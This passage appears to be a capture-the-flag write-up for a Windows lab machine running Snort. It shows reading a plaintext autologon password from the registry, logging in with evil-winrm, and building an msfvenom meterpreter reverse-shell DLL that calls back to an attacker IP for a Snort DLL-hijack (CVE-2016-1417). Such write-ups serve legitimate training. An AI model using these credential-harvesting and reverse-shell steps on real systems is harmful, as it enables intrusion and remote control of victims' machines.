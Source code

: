 1. [**Snort**](https://www.crowdstrike.com/cybersecurity-101/threat-intelligence/snort-rules/) is used on the target:

	_**Snort** is an open-source network **intrusion detection and prevention system (IDS/IPS)** that monitors network traffic and identifies potentially malicious activities on Internet Protocol (IP) networks.

2. There are multiple users: `Administrateur`, `jdoe`, `soc_analyst`, `wsmith`, and `webservice`, and we have access to none of them.

After searching different directories and files, we find this:

```powershell
PS C:\inetpub\internal\dashboard\uploads> reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon"

HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon
<SNIP>
    DefaultPassword    REG_SZ    7y4Z4^*y9Zzj
    AutoLogonSID    REG_SZ    S-1-5-21-916175351-3772503854-3498620144-1103
    LastUsedUsername    REG_SZ    jdoe
<SNIP>
```

It seems that we have found some credentials: `jdoe:7y4Z4^*y9Zzj`! We can try logging in via WinRM:

```bash
$ evil-winrm -i 10.10.11.250 -u jdoe -p 7y4Z4^*y9Zzj

<SNIP>

*Evil-WinRM* PS C:\Users\jdoe\Documents> ls ..\Desktop

    Directory: C:\Users\jdoe\Desktop

Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-ar---        1/23/2024  10:11 PM             34 user.txt

*Evil-WinRM* PS C:\Users\jdoe\Documents> type ..\Desktop\user.txt
8848e4efa24ce8385d44f262ba31cba6
```

As we noticed earlier, **Snort** is used on this machine.

> How to check snort's version?

[CVE-2016-1417](https://nvd.nist.gov/vuln/detail/CVE-2016-1417)


```bash
# creating a malicious DLL
$ msfvenom -p windows/x64/meterpreter/reverse_tcp -f dll LHOST=10.10.14.16 LPORT=9999 > sf_engine.dll
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 510 bytes
Final size of dll file: 9216 bytes

# starting a Python HTTP server
$ python3 -m http.server 8888
Serving HTTP on 0.0.0.0 port 8888 (http://0.0.0.0:8888/) ...
```
